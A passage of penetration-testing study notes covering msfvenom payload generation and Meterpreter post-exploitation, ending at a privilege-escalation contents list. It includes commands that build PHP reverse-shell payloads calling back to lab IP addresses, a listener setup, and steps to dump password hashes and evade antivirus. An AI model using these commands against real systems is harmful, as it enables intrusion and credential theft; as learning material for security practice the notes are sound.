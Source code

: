* ```msfvenom``` - used to generate payloads:

  ```shell
  msfvenom -l payloads #list all payloads

  msfvenom --list formats #list supported output formats

  msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
  #-f is for output format and -e is for encoding

  msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
  #example of handlers

  use exploit/multi/handler #using multi handler to receive incoming connections

  #other payload formats include .elf, .exe, .php, .asp, .py
  ```

* ```meterpreter``` - Metasploit payload; agent within command and control arch; it runs on target system but only in memory, to avoid antivirus detection.

* Metepreter post-exploitation:

  ```shell
  help #shows all commands

  getuid #user info, privilege level

  ps #lists running processes

  migrate 716 #migrate to process 716 to interact

  hashdump #dumps hashes of stored passwords
  #can be cracked using online NTLM databases or rainbow table attacks

  search -f flag.txt #search files

  shell #launch shell

  load kiwi #load additional tools for post-exploitation

  background #to background the session, use post-exploitation modules
  ```

## Privilege Escalation

1. [Shell](#shell)
2. [Linux Privilege Escalation](#linux-privilege-escalation)
3. [Windows Privilege Escalation](#windows-privilege-escalation)
  
---

### Shell
